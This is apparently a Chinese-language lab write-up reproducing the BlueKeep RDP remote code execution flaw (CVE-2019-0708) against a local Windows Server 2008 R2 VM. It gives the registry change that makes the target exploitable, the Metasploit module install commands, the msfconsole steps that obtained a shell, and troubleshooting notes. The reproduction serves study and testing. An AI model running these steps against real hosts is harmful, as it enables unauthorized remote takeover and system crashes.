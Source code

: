 # 0x00 软件介绍
Windows RDP：Windows下自带的一款远程桌面服务

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：2008_r2_standard_zh-chs

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

前提条件：  
2008_r2_standard_zh-chs修改注册表值项HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal Server\WinStations\RDP-Tcp\fDisableCam的值为1  
（有的文章指出要修改的注册表值项为HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal\Server\WinStations\rdpwd\fDisableCam，但我的系统没有值项rdpwd，而在项RDP-Tcp下有值项fDisableCam）

# 0x03 利用条件
Windows Server 2008 R2需要修改注册表  
Windows Server 2008（还没尝试，但应该和Windows Server 2008 R2一样）  
Windows 7无利用条件

# 0x04 影响版本
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)  
Windows Server 2008 R2 for x64-based Systems Service Pack 1  
Windows Server 2008 R2 for Itanium-Based Systems Service Pack 1  
Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)  
Windows Server 2008 for x64-based Systems Service Pack 2  
Windows Server 2008 for Itanium-Based Systems Service Pack 2  
Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)  
Windows Server 2008 for 32-bit Systems Service Pack 2  
Windows 7 for x64-based Systems Service Pack 1  
Windows 7 for 32-bit Systems Service Pack 1

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

将如下3个文件替换msf中默认的文件  
cp ./rdp.rb /usr/share/metasploit-framework/lib/msf/core/exploit/  
cp ./rdp_scanner.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/（有的文章中给出的目录是/usr/share/metasploit-framework/modules/auxiliary/scanner/，我想应该是少写了rdp/）  
cp ./cve_2019_0708_bluekeep.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/  
将如下1个文件添加到msf中  
cp ./cve_2019_0708_bluekeep_rce.rb /usr/share/metasploit-framework/modules/exploits/windows/rdp/  
监听meterpreter：  
msfconsole  
search 0708  
use windows/rdp/cve_2019_0708_bluekeep_rce  
set RHOSTS 192.168.149.130  
run  
选择目标为3（vmware）

第一次没修改注册表，系统蓝屏  
第二次修改注册表后，成功拿到shell  
第三次修改注册表后，系统蓝屏  
第四次修改注册表后，报错Connection reset by peer  
结论，08 r2需要修改注册表，而且利用不稳定

# 0x06 踩坑记录
坑0：Exploit aborted due to failure: bad-config: Set the most appropriate target manually  
表示需要设置对应的目标  
坑1：Exploit failed: NameError undefined local variable or method  
需要额外修改三个文件  
坑2：Exploit failed [disconnected]: Errno::ECONNRESET Connection reset by peer  
未知  

# 0x07 参考链接
https://github.com/rapid7/metasploit-framework/pull/12283  
http://blog.xkkhh.cn/archives/535
